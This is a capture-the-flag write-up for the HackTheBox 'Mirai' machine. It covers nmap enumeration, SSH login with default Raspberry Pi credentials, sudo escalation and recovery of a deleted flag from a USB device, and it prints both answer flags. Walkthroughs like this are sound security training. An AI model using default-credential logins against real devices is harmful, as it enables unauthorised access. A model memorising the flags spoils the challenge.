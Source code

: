 # HackTheBox Walkthrough - Mirai

**Machine Name**: Mirai  
**Target IP**: 10.129.95.255  
**Operating System**: Linux  
**Difficulty**: Easy  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Mirai 10.129.95.255
```

**Ports Identified:**
```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3
53/tcp    open  domain  dnsmasq 2.76
80/tcp    open  http    lighttpd 1.4.35
1091/tcp  open  upnp    Platinum UPnP 1.0.5.13
32400/tcp open  http    Plex Media Server httpd
32469/tcp open  upnp    Platinum UPnP 1.0.5.13
```

---

## 🌐 Web Enumeration

### Port 80 - HTTP

Header reveals unusual entry:

```
X-Pi-hole: The Pi-hole Web interface is working!
```

Default dashboard:
```
/admin
```

Identified service: **Pi-hole**

---

## 🔐 Credential Discovery

### Raspberry Pi Default Credentials

- **Username**: `pi`
- **Password**: `raspberry`

### SSH Access

```bash
ssh pi@10.129.95.255
# Password: raspberry
```

---

## 📥 User Flag

```bash
cat /home/pi/Desktop/user.txt
```
**Flag:** `ff837707441b257a20e32199d7c8838d`

---

## 🚀 Privilege Escalation

`pi` is in the `sudo` group:

```bash
sudo su
```

### Root Flag

```bash
cat /root/root.txt
# I lost my original root.txt! I think I may have a backup on my USB stick...
```

Inspect mounted devices:

```bash
lsblk
# sdb is mounted at /media/usbstick
```

```bash
cat /media/usbstick/damnit.txt
```

Nothing useful, recover deleted content:

```bash
sudo strings /dev/sdb | grep -i root.txt
```

Recovered root flag:

**Flag:** `3d3e483143ff12ec505d026fa13e020b`

---

## ✅ Summary

| Item        | Value                                      |
|-------------|--------------------------------------------|
| User        | pi                                         |
| User Flag   | `ff837707441b257a20e32199d7c8838d`         |
| Root Flag   | `3d3e483143ff12ec505d026fa13e020b`         |
| Priv Esc    | sudo + recovery from `/dev/sdb`           |